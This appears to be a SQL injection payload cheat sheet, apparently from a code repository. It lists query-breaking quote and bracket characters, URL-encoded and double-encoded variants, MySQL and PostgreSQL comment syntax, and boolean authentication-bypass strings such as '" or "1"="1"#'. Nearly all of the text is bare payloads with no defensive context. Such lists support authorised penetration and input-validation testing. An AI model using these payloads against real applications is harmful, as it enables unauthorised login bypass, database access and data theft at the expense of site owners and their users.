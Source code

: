 <h1 align='center'> Query Break</h1>

```sql

'
%27
"
%22
#
%23
;
%3B
)
`
')
")
`)
'))
"))
`))
Wildcard (*)
&apos;  # required for XML content
'/*
'/\*
';--
*/
```

- **`Multiple encoding`**
```sql
%%2727
%25%27
```

<h1 align='center'>Query Join</h1>

- MySQL
```sql
[[comment]]
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
```

- PostgreSQL
```sql
--comment
/*comment*/
```

- more ways to break
```sql
' -- -
'--'
"--"
') or true--
" or "1"="1
" or "1"="1"#
" or "1"="1"/*
"or 1=1 or ""="
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
") or ("1"="1"/*
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or "1"="1"/*
```
